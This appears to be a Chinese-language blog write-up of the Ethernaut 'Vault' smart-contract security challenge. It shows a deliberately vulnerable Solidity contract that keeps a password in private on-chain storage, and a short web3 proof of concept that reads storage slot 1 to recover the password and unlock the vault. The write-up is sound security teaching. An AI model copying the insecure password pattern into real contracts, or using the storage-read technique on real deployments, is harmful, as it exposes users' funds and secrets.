```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-7'
date: 2022-12-10 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'









---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第八关Vault  思路与POC

##### 目标: 想办法设置locked变量为false

#### 先看代码:

##### 获取到密码即可解锁

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  //emm 密码没有加密放在链上,但是设置为私有
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

##### poc思路:point_right:：其实链上的数据都是可以读取的,设置类型为private或者internal仅仅是其他合约不能获取到而已

```js
/*
首先需要了解链上数据在合约中是怎么存储的：每个合约都能够使用2^256数量单位的slot,每个slot大小为32字节
   bool public locked; -> slot 0 index 0 
   bytes32 private password; ->slot 1 index 1
   所以链下需要读取slot1的数据
   web3.eth.getStorageAt('contract address',slotNumber)
*/
await web3.eth.getStorageAt('0xc49187d591C476cEA043F37068880F79a8015F9F',1,(err,res)=>{console.log(res)})
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
//成功解锁
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

